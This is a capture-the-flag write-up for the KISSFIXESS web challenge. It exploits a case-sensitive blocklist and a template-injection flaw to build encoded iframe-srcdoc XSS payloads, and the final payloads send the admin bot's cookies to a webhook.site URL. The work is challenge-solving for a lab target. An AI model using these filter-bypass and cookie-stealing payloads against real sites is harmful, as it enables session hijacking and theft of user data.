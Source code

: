 # 🏷️ KISSFIXESS

**Category:** Web  
**Description:**  
> Kiss My Fixes.

This is the important things from the app.py

```py
lookup = TemplateLookup(directories=[os.path.dirname(__file__)], module_directory=MODULE_DIR)

banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]


def escape_html(text):
    """Escapes HTML special characters in the given text."""
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")

def render_page(name_to_display=None):
    """Renders the HTML page with the given name."""
    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):

        # Parse the path and extract query parameters
        parsed_url = urlparse(self.path)
        params = parse_qs(parsed_url.query)
        name = params.get("name_input", [""])[0]
        
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)

        # Render and return the page
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(render_page(name_to_display=name).encode("utf-8"))
```

<br />
As we can see, it does not check for capital letters.
<br />

```py
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)
```

<br />
So we can enter "Src" and it will be fine.
<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/1.png">
<br />
Now we need to think about getting an XSS using opening and closing tags, but they are blocked. However, we have an SSTI in the render_page function.
<br />

```py

    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")
```

<br />

So we can access anything from the banned list, which contains the strings we need, using the SSTI. The open and closing tags for XSS are in the banned list. To get `<`, for example, we can use `${banned[1]}` this will get us `<`: 

<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/2.png">
<br />

As we can see, it worked. Now we can create a working payload like: `<img src=x onerror=alert()>`

I replaced s with S and l with L 

<br />

```${banned[1]}img Src=x onerror=aLert`1`${banned[2]}```

<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/3.png">
<br />

But if we want to insert the webhook, it will contain many characters that are blocked. However, we can use encoding since we have `${banned[0]}` as `&` we can use html encoding for instance `${banned[0]}#x3d` get converted to `=` 



Let's make a script that will help us convert everything.
<br />

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)
```

will gave us this 

```
${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x2f${banned[0]}#x73${banned[0]}#x72${banned[0]}#x63${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x3e
```

<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/9.png">
<br />

But when we try it, it’s rendered as text. We can use an iframe to load it as HTML

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

This is the payload to get alert(1)

```
${banned[1]}iframe Srcdoc='${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x20${banned[0]}#x53${banned[0]}#x52${banned[0]}#x43${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x22${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x22${banned[0]}#x3e' ${banned[1]}/iframe${banned[2]}
```
<br />

<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/4.png">

<br />
Let's try call our webhook:

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883/?q=\'+document.cookie)"/>'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```
<br />

Got a callback, Let's report to the bot:

<br />

<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/5.png">

<br />

We didn’t get a callback. Looking at the bot, we found this option that will disable image loading:
<br />

```py
chrome_opts.add_argument("--blink-settings=imagesEnabled=false")
```

Let’s try another payload that doesn’t contain an image.

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<audio SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883?q=\'+document.cookie)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' /{td}{nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

Got it:
<br/>
<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/7.png">
<br />

<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/8.png">
